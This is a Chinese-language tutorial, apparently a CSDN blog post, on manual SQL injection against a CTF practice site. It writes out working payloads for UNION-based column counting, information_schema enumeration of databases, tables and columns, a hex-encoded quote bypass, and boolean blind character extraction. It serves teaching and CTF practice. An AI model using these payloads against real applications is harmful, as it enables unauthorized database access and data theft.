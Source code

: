 ```yaml
---
layout: default
---
```



SQL注入的原理就不在这里赘述了，直接从攻击技巧开始：

## 手工注入猜解流程 ##
假设我们现在以[http://ctf5.shiyanbar.com/8/index.php?id=1](http://ctf5.shiyanbar.com/8/index.php?id=1 "http://ctf5.shiyanbar.com/8/index.php?id=1")这个链接为例子，已知它的id是一个注入点：
我们可以大概知道它的SQL语句大概是这么写的：


    SELECT ID,CONTENT FROM TABLE WHERE ID=id

（1）得到字段总数：
我们通过order by语句来判断select所查询的字段数目：
payload为：

    id=1 order by 1/2/3/4

发现当使用order by 3的时候有报错回显，所以select 的字段一共是3个

（2）得到显示位：
在页面上会显示从select中选取的字段，我们接下来就是要判断显示的字段是哪几个字段
使用如下的payload(两者均可)进行判断。
payload为：

    id=-1 union select 1,2,3 或者id=1 and 1=2 union select 1,2,3

从中就可以判断到显示的是从select选出来的第几位和第几位的信息

（3）查询数据库信息：
在知道了显示位之后，那么接下来就可以通过显示位来显示我们想知道的信息，如数据库的版本，用户信息等等。那么我们使用如下的payload就可以知道相关的信息。
payload：

    id=-1 union select1,version(),database()

![](http://img.blog.csdn.net/20170111101223544?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzQ4NDE4MjM=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/Center)

可以看到在页面上就出现了数据库的版本信息和当前使用的数据库信息。
类似的函数还有：
system_user()--数据库的系统用户
current_user()---当前登陆的数据库用户
last_insert_id()---最后一次插入操作的id
那么接下来我们通过这种方式知道数据库中所有的数据库的名称。

payload:

    id=-1 union select 1,2,SCHEMA_NAMEfrom information_schema.SCHEMATA limit 0,1 #得到第一个库名

payload:


    id=-1 union select 1,2,SCHEMA_NAME from information_schema.SCHEMATA limit 1,1 #得到第二个库名

或者是：

    id=-1 union select 1,2,group_concat(schema_name) from information_schema.SCHEMATA#

![数据库结果](http://img.blog.csdn.net/20170111100939384?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzQ4NDE4MjM=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/Center)
![这里写图片描述](http://img.blog.csdn.net/20170111101034916?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzQ4NDE4MjM=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/Center)

这样我们可以知道存在有两个数据库，一般information_schema是第一个数据库，是系统自动生成的库

（4）查询表名：
由于database()返回的就是当前web程序所使用的数据库名，那么我们就利用database()来查询所有的表信息。当然在上一步中。我们也已经知道当前的database就是my_db.
payload:

    id=-1 union select 1,group_concat(table_name),3 from information_schema.tableswhere table_schema=database()

这样我们就得到当前数据库下所有的表名了。页面返回的结果是：

![这里写图片描述](http://img.blog.csdn.net/20170111101516654?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzQ4NDE4MjM=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/Center)

即在当前数据库下存在两个表：news和thiskey

（5）查询列名：
在知道了表名之后，接下来我们利用information_schema.columns就可以根据表名来获取当前表中所有的字段。
payload：

    id=-1 union select 1,group_concat(column_name),3 from information_schema.columnswhere table_name='thiskey'

如果'被屏蔽：
payload：

    id=-1 unionselect 1,group_concat(column_name),3 from information_schema.columns where table_name=0x746869736b6579(thiskey的十六进制)

![这里写图片描述](http://img.blog.csdn.net/20170111102529831?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzQ4NDE4MjM=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/Center)

可以知道有k0y列。但是有的时候后台的代码可能仅用了使用where子句，那么这个时候就无法通过information_schema.coumns来得到列名了，这个时候只能够根据你自己多年的黑客经验来进行猜解了。猜解的方法也是比较的简单，使用exists子句就可以进行猜解了。假设在我们已经知道了表名的情况下(当然猜解表名也使用通过exists子句来完成)

payload：

    id=1 and exists(selectk0y from thiskey)

主要的语句就是exists(select 需要猜解的列名 from users)这种句式。如果在users表中不存在uname列名，则页面不会显示内容或者是直接出现sql的错误语句。

(6)爆出字段内容
在知道了当前数据库所有的表名和字段名之后，接下来我们就可以dump数据库中所有的信息了。比如我们下载当前thiskey表中所有的数据。

payload：

    id=-1 union select 1,group_concat(k0y) from thiskey

这个是最乐观的状态
还有些情况需要一位一位的比较才能获取字段内容：（也就是sqlmap主要做的工作之一）

payload:

    id=1 and ascii(substring((select concat(k0y,0x3a) from thiskey limit 0,1),1,1))>64

意思为如果k0y第一条记录的第一位的ascii码>64则返回正常页面
又或者是

    id=1 and ascii(substring((select k0y from thiskey),0,1))=119

    id=1 and ascii(substring((select k0y from thiskey),0,1))>64

意思都是一样的
这样通过不断比较可以获得字段具体内容